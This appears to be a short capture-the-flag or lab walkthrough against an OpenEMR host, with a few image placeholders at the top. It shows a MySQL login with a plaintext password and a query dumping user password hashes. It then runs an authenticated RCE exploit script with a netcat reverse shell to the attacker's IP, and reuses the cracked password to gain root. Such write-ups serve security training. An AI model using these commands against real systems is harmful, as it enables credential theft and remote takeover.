





```
mysql -u openemr -pC78maEQUIEuQ -h 192.168.180.145
```

There are 2 databases.

In openemr database:

```
select username,password from users_secure;
```

Now we can crack this hash:


Using this password we can use an authenticated rce.

```
python2 45161.py http://192.168.180.145/openemr -u admin -p thedoctor -c "busybox nc 192.168.45.212 443 -e bash"****
```


Now using the same password:

We are root.
